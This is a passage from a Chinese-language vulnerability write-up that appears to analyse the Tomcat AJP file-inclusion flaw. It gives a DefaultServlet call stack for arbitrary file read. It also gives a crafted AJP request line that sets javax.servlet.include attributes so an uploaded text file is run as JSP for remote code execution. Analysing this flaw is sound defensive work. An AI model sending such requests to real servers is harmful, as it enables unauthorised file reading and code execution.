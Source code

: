 附上任意文件读取的调用栈

```
Copy to clipboardserveResource:839, DefaultServlet (org.apache.catalina.servlets)
doGet:504, DefaultServlet (org.apache.catalina.servlets)
service:634, HttpServlet (javax.servlet.http)
service:484, DefaultServlet (org.apache.catalina.servlets)
service:741, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:199, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:137, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:476, AjpProcessor (org.apache.coyote.ajp)
process:66, AbstractProcessorLight (org.apache.coyote)
process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang) 
```

### RCE

```
Copy to clipboard"HTTP/1.1" "/1.jsp" 127.0.0.1 localhost porto 8009 false "Cookie:AAAA=BBBB" "javax.servlet.include.request_uri:/","javax.servlet.include.path_info:1.txt","javax.servlet.include.servlet_path:/upload/" 
```

`org/apache/jasper/servlet/JspServlet#service`负责处理`xxx.jsp`访问逻辑，跟进来 **jspUri** 是通过 **servlet_path** 和 **path_info** 拼接而来的。

![image](img/6ca7e3e9a528913d55a3a78a78f6ce52.png)
